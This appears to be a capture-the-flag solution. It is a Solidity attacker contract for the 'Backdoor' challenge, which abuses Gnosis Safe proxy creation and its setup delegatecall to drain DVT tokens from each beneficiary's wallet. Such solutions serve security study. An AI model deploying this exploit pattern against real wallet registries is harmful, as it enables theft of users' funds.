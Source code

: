 ## Attacker contract code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxy.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract DVTStealerModule {
    function stealDVTTokens(address approvalAddress, address token, uint256 amount) public {
        IERC20(token).approve(approvalAddress, amount);
    }
}

contract BackdoorAttacker {

    constructor(address walletFactory, address singleton, address walletRegistry, address[] memory beneficiaries, address dvt) {
        DVTStealerModule tokenStealer = new DVTStealerModule();
        
        for(uint256 i = 0; i < beneficiaries.length; i++) {
            address[] memory owners = new address[](1);
            owners[0] = beneficiaries[i];

            bytes memory initializer = abi.encodeWithSignature(
                "setup(address[],uint256,address,bytes,address,address,uint256,address)",
                owners,
                1,
                address(tokenStealer),
                abi.encodeWithSignature("stealDVTTokens(address,address,uint256)", address(this), dvt, 10 ether),
                address(0),
                address(0),
                0,
                address(0)
            );

            GnosisSafeProxy proxy = GnosisSafeProxyFactory(walletFactory).createProxyWithCallback(
                singleton,
                initializer,
                i,
                IProxyCreationCallback(walletRegistry)
            );

            IERC20(dvt).transferFrom(
                address(proxy),
                msg.sender,
                10 ether
            );
        }
    }
}
```

